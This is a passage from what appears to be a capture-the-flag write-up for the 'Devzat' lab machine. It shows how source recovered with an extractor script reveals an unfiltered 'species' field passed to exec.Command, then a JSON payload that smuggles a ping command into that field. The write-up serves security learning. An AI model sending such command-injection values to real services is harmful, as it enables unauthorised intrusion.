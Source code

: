i will start with the **extractor** to see broken repository commits and incompleted commits.

```bash
./extractor.sh pets.devzat.htb pets.dump
```

and we have these 3 commits :

```
0-ef07a04ebb2fc92cf74a39e0e4b843630666a705  1-8274d7a547c0c3854c074579dfc359664082a8f6  2-464614f32483e1fde60ee53f5d3b4d468d80ff62
```

we can run the **tree** command to have an overview look , we will see a **main.go** in all the folders we can take a look at it and will find :

![image](/assets/images/devzat/20220311141743.png)

it seems the "**species**" attribute which we sent in the **pets.devzat.htb** is not filtered before being passed to **exec.Command**

we can try some command injection and see if it works

# Foothold

at the **pets.devzat.htb** page we can now try to add an item again but this time we will try to ping our host:

```
{"name":"pingme","species":"cat;ping -c 4 10.10.16.106"}
```

![image](/assets/images/devzat/20220311142344.png)
